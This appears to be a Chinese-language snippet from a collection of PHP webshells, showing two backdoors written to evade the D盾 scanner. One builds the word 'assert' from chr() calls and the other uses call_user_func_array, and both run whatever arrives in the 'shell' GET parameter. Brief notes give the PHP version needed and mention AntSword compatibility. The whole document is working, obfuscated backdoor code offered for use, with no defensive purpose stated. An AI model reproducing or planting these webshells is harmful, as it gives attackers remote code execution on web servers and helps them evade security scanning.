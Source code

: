 **array_map函数过D盾 需PHP版本<7.1**

```php
<?php
function user()
{
$a123 =  chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
return ''.$a123;
}
$a123 = user();
$x123 =array($_GET['shell']);
array_map($a123,$a123 = $x123 );
?>

```
* 注意该马无法直接使用蚁剑连接。

![](img/5.png)

---

**call_user_func_array函数 需PHP版本<7.1**
```php
<?php
 
function a(){
     return 'assert';
}
$a=a();
$aa = array($_GET['shell']);
call_user_func_array($a,$a=$aa);
?>
```
* 注意该马无法直接使用蚁剑连接。
